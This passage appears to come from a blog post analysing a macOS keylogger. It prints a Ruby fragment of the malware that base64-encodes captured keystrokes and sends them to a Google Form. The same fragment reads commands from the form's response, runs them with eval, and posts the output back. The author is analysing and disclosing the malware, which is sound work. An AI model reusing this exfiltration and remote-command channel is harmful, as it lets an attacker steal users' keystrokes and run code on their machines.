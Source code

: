 ```ruby
    end

  end

    if s.length > 2000 || (s.length > 20 && t - ps > 1200)
      begin
        Net::HTTP.start('docs.google.com', : use_ssl => true) { | connection |
          res = connection.post('/forms/d/e/***/formResponse', "entry.***=#{Base64.urlsafe_encode64(s)}")
          s = ''
          ps = t
          res.body.scan(/@@@(.*)@@@/) { | ms |
            ms.each do |m |
              c = Base64.urlsafe_decode64(m)
              Net::HTTP.start('docs.google.com', : use_ssl => true) { | connection2 |
                connection2.post('/forms/d/e/***/formResponse', "entry.***=#{Base64.urlsafe_encode64(eval(c))}")
              }
            end
          }
        }
      rescue SyntaxError
      rescue
    end
  end
end

```

Which is exactly the same code as [this metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/osx/capture/keylog_recorder.rb).

In a nutshell:

```shell
while true do
  GetKeys(keys)
  Process(keys)
  Send(keys)
end
```

![Freakout](/images/posts/vim-anti-keylogger/freakout.gif)

[Carbon](https://en.wikipedia.org/wiki/Carbon_(API)) is an API interacting with old Macintosh machines, in that case I think it's used to target a large number of machines without compatibility issues.

The keys were posted to a Google form, which doesn't give any information on its creator. Identifying the owner is apparently a common question, but the answer is always "you can, report the form if you want, but that's all". (if there's a way, please do let me know!)

After a few minutes looking at the form, it was removed by its creator. Which meant he detected that the payload stopped gathering information.
